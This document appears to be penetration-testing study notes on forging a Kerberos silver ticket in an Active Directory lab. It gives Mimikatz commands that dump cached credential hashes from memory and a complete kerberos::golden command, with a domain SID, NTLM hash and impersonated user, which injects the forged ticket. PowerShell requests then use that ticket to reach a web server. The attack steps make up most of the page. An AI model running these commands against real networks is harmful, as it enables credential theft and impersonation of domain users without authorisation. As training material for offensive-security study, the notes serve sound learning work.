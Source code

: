 # Silver Tickets

In general, we need to collect the following three pieces of information to create a silver ticket:

{% stepper %}
{% step %}
**SPN password hash**

Extract cached AD credentials with Mimikatz:

{% code title="Mimikatz" %}
```
privilege::debug

sekurlsa::logonpasswords
```
{% endcode %}

* looking for _iis\_service_ user account NLTM hashes
{% endstep %}

{% step %}
**Domain SID**

```
whoami /user
```

* we're only interested in the Domain SID, so we omit the RID of the user
{% endstep %}

{% step %}
**Target SPN**


{% endstep %}
{% endstepper %}



Confirm user has no access to the resource:&#x20;

```powershell
iwr -UseDefaultCredentials http://web04
```

### Extract cached AD credentials with Mimikatz:

{% code title="Mimikatz" %}
```powershell
privilege::debug

sekurlsa::logonpasswords
```
{% endcode %}

* looking for _iis\_service_ user account NLTM hashes

### Get SID:

```powershell
whoami /user
```

* we're only interested in the <mark style="color:green;">Domain SID</mark>, so we omit the <mark style="color:red;">RID</mark> of the user (e.g <mark style="color:green;">S-1-5-21-1987370270-658905905-1781884369</mark><mark style="color:red;">-1105</mark>)

### Create the forged service ticket

{% code title="Mimikatz" overflow="wrap" %}
```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
{% endcode %}

* **kerberos::golden**_:_ Mimikatz module to create the forged service ticket
* **/sid:** domain SID
* **/domain:** domain name
* **/target:** the target where the SPN runs
* **/service:** SPN protocol
* **/rc4:** NTLM hash of the SPN
* **/ptt:** allows us to inject the forged ticket into the memory of the machine we execute the command on
* **/user:** an existing domain user

List Kerberos tickets to confirm the silver ticket is submitted to the current session:

```
klist
```

Attempt to access the resource:

```powershell
iwr -UseDefaultCredentials http://web04
```

view source code:

{% code overflow="wrap" %}
```powershell
(Invoke-WebRequest -Uri http://web04 -UseDefaultCredentials).Content
```
{% endcode %}
